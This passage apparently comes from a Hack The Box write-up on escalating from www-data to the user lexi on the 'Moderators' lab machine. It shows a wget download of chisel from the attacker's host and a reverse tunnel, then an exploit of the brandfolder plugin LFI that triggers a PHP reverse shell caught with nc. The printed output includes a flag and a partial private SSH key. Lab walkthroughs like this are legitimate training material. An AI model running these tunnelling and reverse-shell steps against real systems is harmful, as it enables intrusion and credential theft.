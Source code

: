 ```bash
lexi         865  0.0  0.0   2608   596 ?        S    07:20   0:00 /bin/sh /usr/local/sbin/startup.sh
lexi         866  0.0  0.7 228360 31740 ?        S    07:20   0:00 /usr/bin/php -S 127.0.0.1:8080 -t /opt/site.new/

$ cat /usr/local/sbin/startup.sh
#!/bin/sh
/usr/bin/php -S 127.0.0.1:8080 -t /opt/site.new/
```

Upload `chisel` and setup a tunnel to start enumerate the local webservice. 
**Note:** Port 8080 collides with my proxy settings, so I need to close this before setting up chisel.

```bash
# Start server locally
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 4444 -reverse

# Upload and run chisel client
www-data@moderators:/dev/shm$ wget http://10.10.14.5/chisel_1.7.7_linux_amd64
www-data@moderators:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
www-data@moderators:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.5:4444 R:8080:127.0.0.1:8080
2022/09/05 08:34:41 client: Connecting to ws://10.10.14.5:4444
2022/09/05 08:34:41 client: Connected (Latency 27.873433ms)
```

The new site is a total mess, probably because it refers to `moderators.htb` which I'm to lazy to fix in `/etc/hosts`.
![[/assets/images/htb-writeup-moderators/moderators09.png]]


### Step 5
Googling around we find that the plugin `brandfolder` have a [LFI/RFI vulnerability](https://www.exploit-db.com/exploits/39591), we should be able to exploit this to run commands as user `lexi`.

Copy a new php reverse shell to `/dev/shm/`, name it to `wp-load.php` as per instructions and browse to `http://127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/dev/shm/` to trigger the reverse shell. And yes, the chisel tunnel needs to be up and running when triggering the reverse shell.

```bash
www-data@moderators:/dev/shm$ mv rev.php wp-load.php

➜  moderators nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.173] 37260
$ id && hostname
uid=1001(lexi) gid=1001(lexi) groups=1001(lexi),1002(moderators)
moderators

$ cat user.txt && cat .ssh/id_rsa
abbfc3e262e116c1559b3a2a97bdc041
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmHVovmMN+t0u52ea6B357LfXjhIuTG4qkX6eY4iCw7EBGKwaEryn
ECxvN0TbZia5MhfHhJDL88bk2CososBm6i0phnvPo5facWeOzP3vdIiJYdP0XrZ5mNMLbM
ONvoGU8p8LKhlfzHIBqhPxB4N7Dgmcmg2DJ/QRXYrblAj8Bo1owGebWUBlB/tMcO3Yqvaa
QCuzVluSShMrGKJVjL0n2Uvqf/Dw4ouQK3TwXdzrluhCo9icb+2QdA7KxmInb71+OT6rWV
dQ5ymZTot+/qALnzlDkeUlT/RWtqJxJc6MlWy5/neegZRRd3YNhln/1GyL5aN/0O1gBwf3
vY87IYFXK/W0a9Tj5mZ0RNDEOU+wSicM9nS3jabM1Unocq7jw36UPHQhniso6Q7ObvMnWv
cxbVFo9M2axqTTnr/gFkLzU0sj8ms4nxoRagCvc8oOUpMXoauEwEwdpbq3FfT8aKGYKl64
vO+aJxiTPkPpgI6L+pWCYfLXIXwcbVo2xXp3euHLAAAFiI1Y9VaNWPVWAAAAB3NzaC1yc2
EAAAGBAJh1aL5jDfrdLudnmugd+ey3144SLkxuKpF+nmOIgsOxARisGhK8pxAsbzdE22Ym
uTIXx4SQy/PG5NgqLKLAZuotKYZ7z6OX2nFnjsz973SIiWHT9F62eZjTC2zDjb6BlPKfCy
```